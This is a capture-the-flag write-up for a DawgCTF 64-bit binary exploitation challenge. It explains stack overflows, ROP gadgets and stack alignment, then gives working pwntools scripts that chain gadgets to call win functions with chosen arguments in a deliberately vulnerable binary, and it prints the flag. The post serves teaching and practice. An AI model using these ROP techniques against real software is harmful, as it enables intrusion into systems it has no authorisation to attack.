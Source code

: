 ```yaml
---
title: "64 bits in my Ark and Texture"
description: "Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation."
pubDate: 2025-04-22
ctf: "DawgCTF"
category: "Pwn"
author: "HulkOperator"
image: "./images/25-dawg/icon.png"
section: "CTFs"
---
```


## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.

![Level 0 Answers](images/25-dawg/x64_level0.png)

### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program
![Vuln Confirmation](images/25-dawg/x64_level_1_1.png)

Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
![RSP Crash Value](images/25-dawg/x64_level_1_2.png) 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the ROPgadget tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
